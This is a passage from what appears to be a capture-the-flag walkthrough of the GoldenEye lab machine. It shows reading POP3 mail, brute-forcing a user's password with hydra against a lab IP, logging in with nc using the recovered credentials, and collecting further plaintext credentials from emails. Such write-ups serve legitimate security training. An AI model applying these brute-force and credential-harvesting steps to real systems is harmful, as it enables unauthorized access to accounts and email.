 Yay! We got logged into the pop3 service as boris user. Let's list all the messages in the service and we can see that there are 3 emails. So let's retrieve them individually using `RETR` command,

```bash
LIST
RETR 1
RETR 2
RETR 3
```

![image](https://user-images.githubusercontent.com/67465230/175462601-f5576e3c-d9dd-4344-8d8e-067a1f1a0897.png)
![image](https://user-images.githubusercontent.com/67465230/175462609-2bb86d5d-bcd4-4d34-8088-19107cd4d39d.png)

we can see that there are code somewhere placed on the server and using those credentials we can move forward onto next thing but since we don't know where those are, we need to do something else.

We know that there's a natalya user which is a part of Qualified GoldenEye Network Operator Supervisor but we want access her email because we don't have the password. So here, we need to brute force the credentials, 

```bash
hydra -l natalya -P /usr/share/set/src/fasttrack/wordlist.txt 10.10.147.243 -s 55007 pop3
```

![image](https://user-images.githubusercontent.com/67465230/175462617-6e4286ee-8490-48f7-a8a9-e99dc85b65ee.png)

We got the brute forced credentials of natalya user, `natalya:bird`. Now, let's try to access the port 55007 and provide the credentials and we got access to email service as natalya user,

```bash
nc 10.10.147.243 55007
USER natalya
PASS bird
```

![image](https://user-images.githubusercontent.com/67465230/175462631-82829f62-49d1-4c0e-836f-9943b5c4b3f5.png)

Let's list all the messages in the service and we can see that there are 2 emails. So let's retrieve them individually using `RETR` command,

```bash
LIST
RETR 1
RETR 2
```

![image](https://user-images.githubusercontent.com/67465230/175462650-ede04705-cbc4-4bfb-8671-e7fc21e44483.png)
![image](https://user-images.githubusercontent.com/67465230/175465264-31b76e81-d4dd-4ca5-b4dd-6da4ccf54580.png)

after reading the emails, there are credentials for xenia user lying around, `xenia:RCP90rulez!` and there's a domain name **severnaya-station.com** that we need to add into `/etc/hosts` file.

Let's add the following domain name,

```bash
echo "10.10.147.243    severnaya-station.com" | sudo tee --append /etc/hosts
```
